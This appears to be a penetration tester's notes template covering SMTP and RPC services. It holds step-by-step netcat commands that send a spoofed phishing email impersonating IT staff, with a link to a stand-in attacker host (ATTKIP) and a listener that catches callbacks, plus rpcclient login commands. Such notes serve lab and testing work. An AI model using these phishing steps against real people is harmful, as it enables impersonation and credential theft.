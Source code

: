 ~~~ad-note
title:Steps to Reproduce: Phishing Attack
collapse:yes

If there is any indicative of users expecting a link, we can try to launch a phishing attack by accessing SMTP once again and sending a link that points to a listener:

```bash
nc -nv <% machineIp %> 25
helo hacker
MAIL FROM: (impersonated user)@domain
RCPT TO: (target user)@domain

```

We start a listener:

```bash
rlwrap nc -nlvp 80
```

We write the body, containing a link and send it:

```bash
DATA
Subject: Phishing

Hello,

This is Andy from IT, unfortunately we had a problem with our database. We need you to please register at http://ATTKIP/. Please let me know if you encounter any problems.

Regards,
IT
.
```

Once we add that final dot the message is sent, keep checking the listener to see if any callbacks are received.
~~~

### RPC (135, 593 TCP)

> [135, 593 - Pentesting MSRPC | HackTricks | HackTricks](https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc)

~~~ad-check
title:Logging into RPC

```bash
rpcclient <% machineIp %> -U 'user%pass' 

rpcclient -U 'guest%'
```

*Screenshot*
___


~~~
